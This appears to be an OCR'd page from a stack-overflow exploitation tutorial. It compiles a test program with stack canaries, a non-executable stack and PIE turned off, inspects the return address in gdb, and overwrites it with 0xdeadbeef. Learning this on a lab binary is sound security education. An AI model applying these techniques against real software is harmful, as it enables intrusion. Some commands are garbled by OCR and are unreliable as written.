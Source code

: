 bash

CopyEdit

`gcc -fno-stack-protector -z execstack -no-pie -o stack_smash stack_smash.c`

### Explanation:

- `-fno-stack-protector`: disables stack canaries
    
- `-z execstack`: allows code execution on the stack
    
- `-no-pie`: ensures fixed memory addresses (easier for exploits)
    

---

## 🧪 Step 1: Check the Return Address in `gdb`

bash

CopyEdit

`gdb ./stack_smash`

In `gdb`:

gdb

CopyEdit

`break vulnerable_function run $(python3 -c "print('A'*64)")`

After it hits the breakpoint:

gdb

CopyEdit

`info frame`

Then:

gdb

CopyEdit

`x/20x $rsp`

You'll see the `buffer` followed by the **return address**. This is the value we will overwrite.

---

## 🧪 Step 2: Smash the Return Address

Let’s overwrite it with a fake address like `0xdeadbeef`.

bash

CopyEdit

`./stack_smash $(python3 -c "print('A'*72 + '\xef\xbe\xad\xde')")`
